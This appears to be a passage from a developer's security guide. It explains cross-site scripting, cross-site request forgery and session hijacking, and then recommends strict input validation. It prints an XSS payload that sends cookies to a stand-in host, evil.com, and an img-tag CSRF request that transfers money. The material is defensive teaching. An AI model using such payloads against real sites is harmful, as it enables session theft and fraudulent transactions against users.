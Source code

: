 ### Cross-site scripting (XSS)

Most apps incorporate data added by the user into the HTML. For example,
a search for the term *Dogtanian* might result in *“Your search for
Dogtanian returned 3 results”*. An attacker can manipulate this to
insert scripts into the HTML that run from the same origin as the main
website and, therefore, have access to trusted user data. An example
exploit search might be:

`Dogtanian<script>document.location='http://evil.com/log?cookie='+document.cookie</script>`

### Cross-site request forgery (CSRF)

As the name suggests, an attacker may imitate a request to the app from
an unsuspecting user while they browse another website. If an app uses
URLs for important actions (a GET HTTP request rather than a POST
request) and a cookie is trusted for authentication, it is exploitable.

\

For example, a link in an app to transfer money might have the URL:

\

*http://app.com/transfer?to=mother&amount=500*

\

…where the user cookie identifies who the request is from. An attacker
can copy a similar link to their website inside an image element, so
that the request to the app is unnoticeable:

`<img src="http://app.com/transfer?to=attacker&amount=500" />`

If a user who has been previously authenticated with the app visits the
attacker’s website, the browser will send the app’s authentication
cookie to the app when it requests the image, which triggers the app
into performing the attacker’s action.

### Session hijacking

If an attacker can monitor unsecured HTTP traffic between a user and the
app, they can capture the user’s cookie and use it in their own requests
to spoof the user’s session. This is easier than it sounds, as the
Firesheep^[7](#fn7)^ tool demonstrated: traffic on an open wireless
network is simple to intercept.

### Countermeasures

The most important defence against these attacks is to **never trust
input**. Assume that all input outside of your control is malicious,
including that from users, from HTTP headers and from third parties.

It is better to constrain valid input than to only check for malicious
input. If a user ID is always an integer between 1 and 10,000,000,
constrain the allowed values to this range. Constrain input by type
(integer, string and so on), length (number of characters) and format
(such as a valid email address). If it doesn’t match, reject it. Never
rely on client-side validation alone.
